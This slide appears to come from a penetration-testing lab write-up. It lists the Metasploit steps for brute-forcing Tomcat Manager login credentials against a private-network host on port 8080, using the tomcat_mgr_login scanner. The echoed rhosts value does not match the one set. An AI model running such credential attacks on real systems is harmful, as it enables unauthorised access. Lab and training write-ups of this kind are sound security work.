

# Phase-3
To find the credentials of Tomcat Manager Webapp we used Metasploit and do a brute-force attack.

STEP 1 - Turn on Postgresql
root@kali:/home/kali# service postgresql start
STEP 2 - Open Metasploit
root@kali:/home/kali# msfconsole
STEP 3 -
msf5 > search tomcat
STEP 4 –
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
STEP 5 –
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 192.168.0.12
rhosts => 192.168.0.1
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run